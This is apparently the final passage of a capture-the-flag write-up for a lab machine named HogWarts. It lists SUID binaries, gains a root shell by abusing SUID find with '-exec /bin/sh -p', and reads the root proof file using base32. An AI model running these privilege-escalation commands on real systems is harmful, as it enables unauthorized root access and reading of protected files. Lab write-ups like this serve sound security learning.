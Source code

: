 ```shell
/usr/bin/chfn
/usr/bin/base32
/usr/bin/gpasswd
/usr/bin/find
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/mount
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/fusermount
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/xorg/Xorg.wrap
```

Do you see another dangerous binary on the list? well it's find that gives us root access just by simply executing this command


```shell
dobby@HogWarts:/$ find . -exec /bin/sh -p \; -quit
# whoami
root
# base32 /root/proof.txt | base32 -d
                                         _ __
        ___                             | '  \
   ___  \ /  ___         ,'\_           | .-. \        /|
   \ /  | |,'__ \  ,'\_  |   \          | | | |      ,' |_   /|
 _ | |  | |\/  \ \ |   \ | |\_|    _    | |_| |   _ '-. .-',' |_   _
// | |  | |____| | | |\_|| |__    //    |     | ,'_`. | | '-. .-',' `. ,'\_
\\_| |_,' .-, _  | | |   | |\ \  //    .| |\_/ | / \ || |   | | / |\  \|   \
 `-. .-'| |/ / | | | |   | | \ \//     |  |    | | | || |   | | | |_\ || |\_|
   | |  | || \_| | | |   /_\  \ /      | |`    | | | || |   | | | .---'| |
   | |  | |\___,_\ /_\ _      //       | |     | \_/ || |   | | | |  /\| |
   /_\  | |           //_____//       .||`      `._,' | |   | | \ `-' /| |
        /_\           `------'        \ |   AND        `.\  | |  `._,' /_\
                                       \|       THE          `.\
                                            _  _  _  _  __ _  __ _ /_
                                           (_`/ \|_)/ '|_ |_)|_ |_)(_
                                           ._)\_/| \\_,|__| \|__| \ _)
                                                           _ ___ _      _
                                                          (_` | / \|\ ||__
                                                          ._) | \_/| \||___


```

I had to use base32 to read since cat was not installed. Overall a great machine with many paths to the final solution!

